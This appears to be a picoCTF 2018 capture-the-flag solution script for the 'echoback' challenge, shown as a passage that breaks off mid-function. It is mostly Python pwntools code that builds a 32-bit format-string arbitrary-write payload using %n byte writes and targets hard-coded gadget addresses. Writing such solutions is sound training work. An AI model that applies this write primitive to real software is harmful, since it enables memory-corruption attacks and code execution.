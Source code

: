 ```python
RET_GADGET_ADDR = 0x08048642
VULN_ADDR = 0x080485ab


def spawn_process(local=local):
	if local:
		p=process('./echoback') # :-)
	else:
		p = remote('2018shell2.picoctf.com', 22462)
	return p

# Useful library function to write a format string with four byte writes.
# 1. Take the input as a string, e.g. "\xab\x85\x04\x08"
# 2. Convert each byte in the string into its corresponding integer
# 3. Take in the length of the buffer of A's before the input
#    referenced by the direct parameter access, as well as the
#    direct parameter number.
# 4. Do the calculations, reduce the A's, check the length of the resulting
#    string, re-pad with A's. This function is designed for a 32-bit
#    architecture.
# dpn: direct parameter number
# src: the four-byte string to get written to an arbitrary location
# dst: the address to get written to, as an integer
# buf_length: the length of the buffer of A's (and other content) prior to the
#      location in the payload referenced by dpn
#
def gen_fmt_string_write_x86_first_half(src, dpn):
	n_bytes_written = 0
	payload = ""
	for i in range(4):
		byte_to_write = ord(src[i])
		last_byte_of_n_bytes_written = n_bytes_written % 256
		# The field width means we'll sometimes print 8 bytes even if the
		# minimum width is less
		n_bytes_to_write_this_round = byte_to_write - last_byte_of_n_bytes_written
		if n_bytes_to_write_this_round < 8:
			n_bytes_to_write_this_round += 256
		payload += "%"
		payload += str(n_bytes_to_write_this_round)
		payload += "x"
		payload += "%"
		payload += str(dpn+i)
		payload += "$hhn"
		n_bytes_written += n_bytes_to_write_this_round
	return(payload)

def gen_fmt_string_write_exploit_x86(src, dst, dpn, buf_length):
	fmt_string = gen_fmt_string_write_x86_first_half(src, dpn)
	while len(fmt_string) > buf_length:
		buf_length += 4
		dpn += 1
		fmt_string = gen_fmt_string_write_x86_first_half(src, dpn)
	# Add padding if necessary
	if buf_length - len(fmt_string) > 0:
		fmt_string += "A"*(buf_length - len(fmt_string))
	# Locations where the chars are going to be written
	for i in range(4):
		fmt_string += p32(dst+i)
	return fmt_string

## The above two functions could go in a library.
## Now here's something problem-specific.
def do_a_write(src, dst):
```